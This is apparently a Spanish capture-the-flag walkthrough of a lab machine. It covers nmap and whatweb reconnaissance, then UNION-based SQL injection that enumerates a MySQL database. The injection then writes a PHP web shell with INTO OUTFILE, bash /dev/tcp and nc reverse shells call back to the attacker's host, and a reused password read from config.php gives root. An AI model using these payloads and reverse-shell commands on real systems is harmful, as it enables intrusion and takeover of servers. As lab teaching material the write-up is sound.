 1. Escaneo con nmap

```console
└─$ nmap -sCV -Pn -T5 10.10.11.116

22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
80/tcp   open  http    Apache httpd 2.4.48 ((Debian))
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Apache/2.4.48 (Debian)
4566/tcp open  http    nginx
|_http-title: 403 Forbidden
8080/tcp open  http    nginx
|_http-title: 502 Bad Gateway
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

└─$ whatweb http://10.10.11.116:80
http://10.10.11.116:80 [200 OK] Apache[2.4.48], Bootstrap, Country[RESERVED][ZZ], HTTPServer[Debian Linux][Ap
ache/2.4.48 (Debian)], IP[10.10.11.116], JQuery, PHP[7.4.23], Script, X-Powered-By[PHP/7.4.23]

└─$ whatweb http://10.10.11.116:8080
http://10.10.11.116:8080 [502 Bad Gateway] Country[RESERVED][ZZ], HTTPServer[nginx], IP[10.10.11.116], Title[502 Bad Gateway], nginx
```
2. La web en el puerto 80 -> Es una web php por lo que dice el escaneo. Te da un formulario con el nombre y un pais -> Pongo "cucuxii:Canada" y 
me dirige a /account.php donde sale una lista (vacia) de otros jugadores en esa zona.

Se me ocurrieron tanto un STTI (por estar reflejado mi input (nombre)) como un sqli, ya que intuyo que la query puede ser algo como esto -
```SELECT player FROM players WHERE country='Canada';```

La peticion se tramita tal que asi "POST a / -> 'username=cucuxii&country=Canada' -> redirect a /account.php" donde me setea una cookie como 
"1a5bf49db4c2f7f4cf8f1645e1fd3cc5" (no parece base64 ni hexadecimal...)

Intente formar un error sqli como "Canada'" y salio un error como este ```Fatal error: Uncaught Error: Call to a member function fetch_assoc() on 
bool in /var/www/html/account.php:33 Stack trace: #0 {main} thrown in /var/www/html/account.php on line 33``` Investigue de que se trataba este err
or y sale porque se ha puesto mal una query sql. Si ponemos "' -- -" ya no sale porque se ha cerrado 

3. SQLI:
```' union select 1-- -``` devuelve 1 en la respuesa, o sea ya tenemos campo que explotar.
```' union select database()-- - # -> registration```
```' union select schema_name from information_schema.schemata-- -   # -> mysql registration```
```' union select table_name from information_schema.tables where table_schema = 'registration'-- -```
```' union select column_name from information_schema.columns where table_schema = 'registration' and table_name ='registration'-- - # -> username userhash```
```' union select group_concat(username,0x3a,userhash) from registration-- -```
Aun asi esta ultima query solo me devolvia los hashes de mis usuarios que he ido creando.

4. Shell
```' union select "<?php system($_GET['cmd']); ?>" INTO OUTFILE '/var/www/html/shell.php'-- -```
Me ha dado el error, pero luego la ruta existir existia diciendo que no puedo dar un comando en blanco.

He hecho una peticion tal que asi y me ha dado una shell como www-data:
```
http://10.10.11.116/shell.php?cmd=bash -c 'bash -i >%26 /dev/tcp/10.10.14.8/443 0>%261'
http://10.10.11.116/shell.php?cmd=rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>%261|nc 10.10.14.8 443 >/tmp/f
```

```
└─$ sudo nc -nlvp 443
www-data@validation:/var/www/html$ ls  # -> config.php
www-data@validation:/var/www/html$ cat config.php # ->   $password = "uhc-9qual-global-pw";
www-data@validation:/var/www/html$ su root # -> Password: uhc-9qual-global-pw
```


